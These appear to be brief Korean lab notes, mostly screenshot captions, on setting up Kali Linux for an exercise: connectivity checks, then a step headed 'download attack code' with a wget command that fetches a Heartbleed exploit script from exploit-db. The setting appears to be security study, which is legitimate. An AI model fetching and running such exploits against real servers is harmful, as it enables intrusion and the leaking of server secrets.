

<br>

ping check





<br>

kali -> python 점검



<br>

kali -> https:// 점검



한국어 번역이 안되는 버전이라 한글이 깨져서 나오는 겁니다.

<br>

kali -> 공격코드 다운로드



```
wget https://www.exploit-db.com/download/32745 -O heartbleed.py
```

<br>

